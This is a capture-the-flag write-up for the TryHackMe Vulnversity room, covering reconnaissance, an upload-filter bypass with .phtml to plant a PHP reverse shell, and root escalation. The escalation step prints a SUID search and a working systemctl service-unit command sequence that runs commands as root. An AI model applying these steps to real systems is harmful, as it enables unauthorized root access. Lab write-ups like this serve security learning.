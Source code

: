 Writeup for Tryhackme Vulversity ctf challenge.

Prerequisites

I would recommend that you should have basic knowledge of the following, it’s not necessary but it will help you to solve the tasks more effectively and efficiently
>Nmap
>Directory Busting
>Burpsuit
>Linux file systems, Permissions, SETUIDs, environmental variables, etc



![vulnversityinfo](https://user-images.githubusercontent.com/64267672/125898695-f9675392-6613-46e3-a863-3854441856a4.png)




Starting with an nmap scan foinformation gathering;
![vulnversitynmap](https://user-images.githubusercontent.com/64267672/125898736-ce5c5152-0a60-499b-8697-f8995f410a56.png)


Looking at the web server on port 3333 & we have this;
![vulnversityweb](https://user-images.githubusercontent.com/64267672/125899869-bb9d8ff0-7dc2-4044-90bf-daa20a41838d.png)


Now bruteforcing for interesting directories some;
![vulnversitybuster](https://user-images.githubusercontent.com/64267672/125899970-b95c697f-7942-4e34-999b-2339170d23d2.png)

we see that there's a hidden '/uploads' directory indside of '/internal' directory all in the web server on port 3333


visiting the /internal directory reveals to us the upload feature of the website
![vulnversityinternal](https://user-images.githubusercontent.com/64267672/125900826-db85ce15-de0b-4b34-9787-21d12c21c5f5.png)


Most time the upload feature of a website can be vulnurable & an attacker can try to upload malicious content into the server just like I'm gonna do. Now i can try to upload a reverse shell;
![vulnversityupload](https://user-images.githubusercontent.com/64267672/125900859-bfcc73fb-b018-4113-9c6e-76271ef6ab2e.png)

(Before upload)

Ok so we get our php reverse shell ready with the listening ip address & port number (attacker's);
![vulnversityphpshell](https://user-images.githubusercontent.com/64267672/125902181-25e10dc9-c785-4529-8f60-ed78cbd19176.png)

ok we can start testing the upload feature with whatever file extentions you prefer, but i started with a .php file extention but .php file extention is being filtered apparently;
![vulnversityphpfilter](https://user-images.githubusercontent.com/64267672/125902716-2e26df2e-af66-49c2-a4dc-17decaf0109d.png)


But GOODNEWS!! This can be bypassed. 
![vulnversityphpfile](https://user-images.githubusercontent.com/64267672/125903288-51289c6c-49fb-4cfc-a37a-131321557c9e.png)


ok so making a list of the file extentions i can bruteforce & see which works ok;
![vulnversityburpfile](https://user-images.githubusercontent.com/64267672/125903670-2da7cd4a-8ed0-4b45-a865-120d90763358.png)


![vulnversityburp](https://user-images.githubusercontent.com/64267672/125903779-ee8c47fe-5ed9-4c7d-a0dd-b22c218dadf9.png)


Now we have a result & 1 lucky hit;
![vulnversityintrud](https://user-images.githubusercontent.com/64267672/125903949-5833a289-3298-4f09-9829-7f7b37bfbb2c.png)


so we now what file extention to save our reverse shell now, so we try to upload malicios file but this time saving it as .phtml;
![vulnversityphpsuccess](https://user-images.githubusercontent.com/64267672/125904448-4d7fa0cc-276c-4725-87df-49f6a6c86b52.png)

And here we go!!
we can find our file in /uploads directory;
![vulnversityfileupload](https://user-images.githubusercontent.com/64267672/125904738-c2c6ddb5-e50c-4902-a00d-48793a1b8caf.png)

Now we can setup our netcat listener to listen on the specified port we set on our reverse shell script, mine being port 1337;
![vulnversitynetcat](https://user-images.githubusercontent.com/64267672/125905190-a7dc5352-eb12-449d-895e-24a60502cfe9.png)

BOOM!! we have a shell as www-data user;
![vulnversityshell](https://user-images.githubusercontent.com/64267672/125905454-9ec6b6f9-0dd4-40b9-a31b-484914bc3359.png)

now to escalate to higher privilege (root);
You can use any of the popular enumerations scripts available .
We are looking for a file that has the setuid bit set (In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it)

```www-data@vulnuniversity:/home/bill$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
< \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null              
-rwxr-sr-x 1 root tty 27368 May 16  2018 /usr/bin/wall
-rwxr-sr-x 1 root tty 14752 Mar  1  2016 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap
-rwxr-sr-x 1 root mlocate 39520 Nov 18  2014 /usr/bin/mlocate
-rwxr-sr-x 1 root shadow 62336 May 16  2017 /usr/bin/chage
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwxr-sr-x 1 root utmp 434216 Feb  7  2016 /usr/bin/screen
-rwxr-sr-x 1 root ssh 358624 Jan 31  2019 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
-rwxr-sr-x 1 root crontab 36080 Apr  5  2016 /usr/bin/crontab
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwxr-sr-x 1 root shadow 22768 May 16  2017 /usr/bin/expiry
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-sr-x 1 daemon daemon 51464 Jan 14  2016 /usr/bin/at
-rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 76408 Jul 17  2019 /usr/lib/squid/pinger
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwxr-sr-x 1 root utmp 10232 Mar 11  2016 /usr/lib/x86_64-linux-gnu/utempter/utempter
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwxr-sr-x 1 root shadow 35600 Apr  9  2018 /sbin/unix_chkpwd
-rwxr-sr-x 1 root shadow 35632 Apr  9  2018 /sbin/pam_extrausers_chkpwd
-rwsr-xr-x 1 root root 35600 Mar  6  2017 /sbin/mount.cifs
www-data@vulnuniversity:/home/bill$ 
```
We can see that /bin/systemctl stands out from the rest;

```systemctl is a binary that controls interfaces for init systems and service managers. Remember making your services run using the systemctl command during the boot time. All those tasks are handled as units and are defined in unit folders. By default systemctl will search these files in /etc/system/systemd```

With help of Gtfobins, we can execute commands as root & we are ROOT!

`````www-data@vulnuniversity:/opt$ priv=$(mktemp).service
priv=$(mktemp).service
www-data@vulnuniversity:/opt$ echo '[Service]
echo '[Service]
> ExecStart=/bin/bash -c "id > /opt/flags"
ExecStart=/bin/bash -c "id > /opt/flags"
> [Install]
[Install]
> WantedBy=multi-user.target' > $priv
WantedBy=multi-user.target' > $priv
www-data@vulnuniversity:/opt$ /bin/systemctl link $priv
/bin/systemctl link $priv
Created symlink from /etc/systemd/system/tmp.JkIyFRM4eb.service to /tmp/tmp.JkIyFRM4eb.service.
www-data@vulnuniversity:/opt$ /bin/systemctl enable --now $priv
/bin/systemctl enable --now $priv
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.JkIyFRM4eb.service to /tmp/tmp.JkIyFRM4eb.service.
www-data@vulnuniversity:/opt$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@vulnuniversity:/opt$ cd /root
cd /root
bash: cd: /root: Permission denied
www-data@vulnuniversity:/opt$ ls
ls
flag  flags
www-data@vulnuniversity:/opt$ cat flags
cat flags
uid=0(root) gid=0(root) groups=0(root)`````

###References-

```https://tryhackme.com/room/vulnversity
https://gtfobins.github.io/gtfobins/systemctl/#suid
